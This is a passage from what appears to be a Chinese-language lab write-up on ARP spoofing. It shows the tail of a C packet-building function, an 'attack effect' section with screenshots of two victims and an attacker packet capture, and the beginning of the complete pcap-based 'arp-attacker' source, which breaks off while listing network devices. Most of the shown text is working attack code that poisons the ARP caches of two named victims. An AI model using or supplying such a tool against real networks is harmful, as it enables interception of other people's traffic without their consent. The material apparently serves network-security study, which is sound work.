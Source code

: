    ```c
   	packet[41] = dip[3];
   
   	/* Fill the rest of the packet with 0 */
   	for (int i = 42; i < 61; i++)
   	{
   		packet[i] = 0x0;
   	}	
   }
   ```



#### 4. 攻击效果

1. 受害者1

   ![1569924260141](C:%5CUsers%5C24538%5CDesktop%5COK%5CTemp%5Cimg%5C1569924260141.png)

2. 受害者2

   ![1569924315454](C:%5CUsers%5C24538%5CDesktop%5COK%5CTemp%5Cimg%5C1569924315454.png)

3. 攻击者抓包

   攻击过程：
   
   ![1569927815119](C:%5CUsers%5C24538%5CDesktop%5COK%5CTemp%5Cimg%5C1569927815119.png)
   
   

#### 5.完整代码

```c
//2019.10.1
//by zhyjc6
#include <stdlib.h>
#include <stdio.h>
#include <pcap.h>


void pktbuild(u_char* packet, int *smac, int *sip, int *dmac, int* dip);

int main(int argc, char **argv)
{
	pcap_if_t* alldevs;			//网卡列表
	pcap_if_t* d;				//选中的网卡
	int i = 0;					//全局计数变量
	int inum;					//定位选中的网卡
	u_char* packet1[100];		//arp帧包1
	u_char* packet2[100];		//arp帧包2

	pcap_t *fp;					//启用网卡后的句柄
	char errbuf[PCAP_ERRBUF_SIZE];		//错误缓冲区
	int flood;							//发送包的数量

	int self_mac[6];		//攻击者自己的mac地址
	int victim1_ip[4];		//受害者1的ip
	int victim1_mac[6];		//受害者1的mac地址
	int victim2_ip[4];		//受害者2的ip
	int victim2_mac[6];		//受害者2的mac地址

	printf("the arp-attacker starts...\n");

	/* 检索设备列表 */
	if (pcap_findalldevs(&alldevs, errbuf) == -1)
	{
		fprintf(stderr, "Error in pcap_findalldevs: %s\n", errbuf);
```